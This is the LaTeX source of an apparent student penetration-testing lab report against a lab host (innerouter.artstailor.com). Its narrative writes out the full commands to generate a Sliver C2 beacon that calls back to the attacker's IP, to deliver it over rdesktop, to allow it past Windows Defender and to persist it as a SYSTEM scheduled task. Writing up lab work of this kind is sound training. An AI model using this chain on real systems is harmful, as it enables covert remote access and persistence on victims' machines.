%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
 
\title{Penetration Test - Exercise 0c0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Attack Narrative}

    \subsection{Beacon Generation}
    To generate a beacon, we need to use the sliver program and then use the generate command. We want the beacon to call back to the kali vm, so
    we want to use our own IP in the beacon and then insert the executable into the remote desktop.
    
    \begin{verbatim}
ip a
sliver
generate beacon --mtls 172.70.184.3 --save ~/sliver.exe
    \end{verbatim}
    
    We then want to move this to a temp folder and use this folder as the mounted directory for the desktop

    \begin{verbatim}
mktemp -d
mv sliver.exe /tmp/<tmp>
rdesktop innerouter.artstailor.com -r disk:win32=/tmp/<tmp>/
    \end{verbatim}
    
    \subsection{Windows Task}
    We can attempt to run the program on the windows machine, but we need to make sure to disable live virus protection and also make sure to click on 
    the popup when we run the executable to allow the process to stay on the machine and not be scanned next time. To do this, we do the following

    \begin{verbatim}
Privacy Privacy & Security →  Windows Security →  Protection Areas →  
Virus & Threat Protection →  Under Current Threads → 
Protection History → Find executable click allow
    \end{verbatim}

    Now, we can move the executable from the z drive to the c drive and then create a task that will startup this executable whenever a user logs in as follows

    \begin{verbatim}
copy z:\sliver.exe c:\Users\pr0b3\sliver.exe
schtasks /create /tn "Sliver" /tr "C:\users\pr0b3\sliver.exe" 
/sc ONSTART /ru "system"
schtasks /Run /TN Sliver
    \end{verbatim}

    \subsection{Confirmation}
    If we have sliver open when we run the task above, we should see a message that says a connection has been established. Once we see this message, running whoami yields our
    username on the machine where sliver.exe is running. In the image below, --save ~/sliver.exe was not used so it defaulted to name FREQUENT{\_}WATERFALL.exe \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0c0/sliver}

    \subsection{MITRE ATT{\&}CK Framework TTPs}
        
    \subsubsection*{}
    \ttp(TA002, Execution, T1053, Scheduled Task/Job, .005, Scheduled Task)

\end{document} 
